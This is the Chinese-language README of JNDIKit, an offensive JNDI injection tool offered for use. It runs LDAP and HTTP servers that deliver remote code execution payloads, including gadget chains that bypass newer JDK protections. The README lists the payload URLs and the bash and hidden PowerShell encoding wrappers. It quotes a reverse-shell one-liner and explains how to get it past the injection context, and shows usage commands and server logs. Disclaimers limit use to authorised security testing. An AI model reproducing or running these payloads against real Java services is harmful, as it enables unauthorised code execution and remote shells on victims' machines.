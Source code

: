 # JNDIKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

## ⚠️免责声明

在原有的协议中追加以下内容：

本项目禁止进行未授权商业用途

本项目禁止二次开发后进行商业用途

本项目仅面向合法授权的企业安全建设行为，在使用本项目进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权

如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任

在使用本项目前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意

除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要使用本项目

您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束

## 介绍

一款简单的`JNDI`注入利用工具（自用）

总体参考了 [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 项目，但有很多不同的细节

并没有多少高级功能，主要是一些基本的功能，供安全研究使用

无需自行编译`Java`代码和开启`HTTP`服务，一键启动

| Payload                               | 介绍                                        |
|---------------------------------------|-------------------------------------------|
| ldap://0.0.0.0:1389/SimpleCommand     | 直接执行命令                                    |   
| ldap://0.0.0.0:1389/BashCommand       | 使用bash并进行Base64编码执行命令                     |
| ldap://0.0.0.0:1389/PowershellCommand | 使用powershell并进行Base64编码执行命令               |
| ldap://0.0.0.0:1389/CC6               | 使用CommonsCollections6绕过高版本JDK             |
| ldap://0.0.0.0:1389/BashCC6           | 使用CommonsCollections6绕过高版本JDK（bash）       |
| ldap://0.0.0.0:1389/PowershellCC6     | 使用CommonsCollections6绕过高版本JDK（powershell） |
| ldap://0.0.0.0:1389/CB1               | 使用CommonBeanUtils1绕过高版本JDK                |
| ldap://0.0.0.0:1389/BashCB1           | 使用CommonBeanUtils1绕过高版本JDK（bash）          |
| ldap://0.0.0.0:1389/PowershellCB1     | 使用CommonBeanUtils1绕过高版本JDK（powershell）    |
| ldap://0.0.0.0:1389/Tomcat            | 使用Tomcat ELProcessor绕过高版本JDK              |
| ldap://0.0.0.0:1389/BashTomcat        | 使用Tomcat ELProcessor绕过高版本JDK（bash）        |
| ldap://0.0.0.0:1389/PowershellTomcat  | 使用Tomcat ELProcessor绕过高版本JDK（powershell）  |

支持三种格式的`RCE`
- 直接执行：`Runtime.getRuntime.exec(command);`
- 使用`bash`并编码：`bash -c {echo,[Payload]}|{base64,-d}|{bash,-i}`
- 使用`powershell`并编码：`powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc [Payload]`

为什么需要对命令进行特殊处理： 

例如`linux`下执行反弹`shell`命令会失败：`bash -i >& /dev/tcp/x.x.x.x/port 0>&1`

因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义，所以需要进行特殊处理

支持一些绕过高版本`JDK`的方式（同样支持三种格式的`RCE`）

- 打本地`gadget`的`CB1`和`CC6`链
- 利用`Tomcat ELProcessor`的绕过

## 使用

命令：`java -jar JNDIKit.jar --cmd calc.exe`

如果命令中包含空格请用引号包裹：`--cmd 'your command'`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|                                                                 
20:31:33 [INFO] [org.sec.Main] start jndi kit
20:31:33 [INFO] [org.sec.Main] cmd: calc.exe
20:31:33 [INFO] [org.sec.core.http.HttpServer] start http server: 0.0.0.0:8000
20:31:33 [INFO] [org.sec.core.ldap.LdapServer] start ldap server: 0.0.0.0:1389
┌─────────────────────────────────────┬────────────────────────────────────────────────────┐
│LDAP Payload                         │Introduce                                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/SimpleCommand    │Simple RCE                                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCommand      │Simple RCE Use Bash                                 │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCommand│Simple RCE Use Powershell                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CC6              │RCE Use CC6 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCC6          │RCE Use CC6 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCC6    │RCE Use CC6 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CB1              │RCE Use CB1 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCB1          │RCE Use CB1 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCB1    │RCE Use CB1 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/Tomcat           │Use Tomcat ELProcessor Bypass JDK 8u191 (Simple)    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashTomcat       │Use Tomcat ELProcessor Bypass JDK 8u191 (Bash)      │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellTomcat │Use Tomcat ELProcessor Bypass JDK 8u191 (Powershell)│
└─────────────────────────────────────┴────────────────────────────────────────────────────┘
```

如果端口冲突可自行配置端口

命令：`java -jar JNDIKit.jar --cmd calc.exe --lp 1390 --hp 8001`

接收到请求会实时打印

```text
20:53:21 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> SimpleCommand
20:53:30 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCommand
20:53:42 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCC6
20:53:51 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellTomcat
```

## 免责申明

**未经授权许可使用`JNDIKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


